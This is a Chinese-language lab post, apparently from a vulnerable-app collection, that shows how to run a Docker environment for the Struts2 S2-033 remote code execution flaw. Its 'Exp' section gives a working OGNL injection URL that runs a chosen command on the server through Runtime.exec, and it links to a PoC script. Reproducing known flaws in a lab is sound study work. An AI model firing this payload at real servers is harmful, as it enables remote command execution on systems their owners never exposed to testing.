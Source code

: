 ```yaml
---
layout: post
title: "Struts2 远程代码执行漏洞(S2-033)"
date: 2016-06-16 16:18:18 +0800
image: '/assets/img/'
description: 'Struts2 远程代码执行漏洞(S2-033)环境'
main-class: 'hole'
color: '#B31917'
tags:
- Struts2
- RCE
categories:
- Struts2
twitter_text: 'Struts2 远程代码执行漏洞(S2-033)环境'
introduction: 'Struts2 远程代码执行漏洞(S2-033)环境'
---
```

<style type="text/css">
.highlight pre{
  white-space: pre-wrap;
}    
</style>

## Struts2 S2-033 漏洞环境

### 说明

 官方 demo 中提供的 war 包由于添加了 jsp 拦截器，配置会有问题，修正了一下。

### 漏洞信息

 * [S2-033 官方公告](http://struts.apache.org/docs/s2-033.html)

### 获取环境:

1. 拉取镜像到本地
 ```bash
$ docker pull medicean/vulapps:s_struts2_s2-033
 ```

2. 启动环境
 ```bash
$ docker run -d -p 80:8080 medicean/vulapps:s_struts2_s2-033
 ```
 > `-p 80:8080` 前面的 80 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

#### Exp

假定启动后的地址为：http://127.0.0.1:8080/

执行 id 命令：

```
http://127.0.0.1:8080/orders/4/%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23xx%3d123,%23rs%3d@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(%23parameters.command[0]).getInputStream()),%23wr%3d%23context[%23parameters.obj[0]].getWriter(),%23wr.print(%23rs),%23wr.close(),%23xx.toString.json?&obj=com.opensymphony.xwork2.dispatcher.HttpServletResponse&content=2908&command=id
```

> 修改参数 command 的值为你要执行的命令

### 参考链接

![S2-033_CmdToolExP - coffeehb/Some-PoC-oR-ExP](https://github.com/coffeehb/Some-PoC-oR-ExP/blob/master/Struts2/S2-033_CmdToolExP.py)
